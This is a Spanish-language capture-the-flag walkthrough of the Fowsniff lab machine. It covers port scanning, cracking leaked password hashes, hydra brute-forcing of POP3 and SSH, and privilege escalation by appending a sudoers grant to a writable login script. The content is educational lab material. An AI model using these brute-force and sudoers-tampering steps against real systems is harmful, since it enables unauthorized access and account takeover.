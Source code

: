 # Fowsniff
Máquina no muy complicada pero explota un par de conceptos guapos, y el root esta guapo

Interesante: POP3 enumeration , OSINT
## Initial Scan
```
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP USER PIPELINING UIDL AUTH-RESP-CODE CAPA RESP-CODES
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: post-login Pre-login capabilities more listed ID have IDLE AUTH=PLAINA0001 ENABLE SASL-IR OK LITERAL+ LOGIN-REFERRALS IMAP4rev1
```

## Enum

### HTTP

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```
Parece que aquí esta todo correcto, veamos las RRSS de la empresa

### RRSS

```
https://twitter.com/fowsniffcorp
```
Parece que les han pawneado veamos mas a fondo
```
https://pastebin.com/NrAqVeeX
```
Tenemos una serie de hashes, veamos cuales desencriptamos
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
Veamos cuales podemos crackear con crackstation
```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```
Solo nos falta la pass de stone, el sysadmin

## Pop3

Generamos una wordlist con los users y passwords hallados y testamos en el pop3

```bash
 pj@THM$ hydra -L users.txt -P pass.txt 10.10.208.167 pop3
 [110][pop3] host: 10.10.208.167   login: seina   password: scoobydoo2
```
Entremos
```pop3
pj@crow-foot:~$ nc 10.10.208.167 110
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
RETR 1
 +++++++++++++++++++++
 The temporary password for SSH is "S1ck3nBluff+secureshell"
 +++++++++++++++++++++
```
### SSH

Entramos en 

```
pj@THM$ hydra -L users.txt -p "S1ck3nBluff+secureshell" 10.10.208.167 ssh
[22][ssh] host: 10.10.208.167   login: baksteen   password: S1ck3nBluff+secureshell
```

## Privesc

Una vez dentro
```
baksteen@fowsniff:~/Maildir$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```
El grupo users es sospechoso 
```
baksteen@fowsniff:~/Maildir$ find / -group users 2> /dev/null
/opt/cube/cube.sh
```
Veamos el script 
```
baksteen@fowsniff:~/Maildir$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```
Así mejor 

```
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

echo 'baksteen  ALL=(ALL:ALL) ALL' >> /etc/sudoers 
```
Mirando el 00-header vemos que se invoca al script cada vez que alguien se logea,veamos si podemos explotar esto

Ahora salimos y entramos de nuevo con la diferencia de que:
```
User baksteen may run the following commands on fowsniff:
    (ALL : ALL) ALL
```

Y ya somos root.

## Easter Egg

```
baksteen@fowsniff:~$ cat /var/www/html/security.txt 
       WHAT SECURITY?

            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |
|       .oooO                |
|        (   )   Oooo.       |
+---------\ (----(   )-------+
           \_)    ) /
                 (_/


Fowsniff Corp got pwn3d by B1gN1nj4!


No one is safe from my 1337 skillz!
```
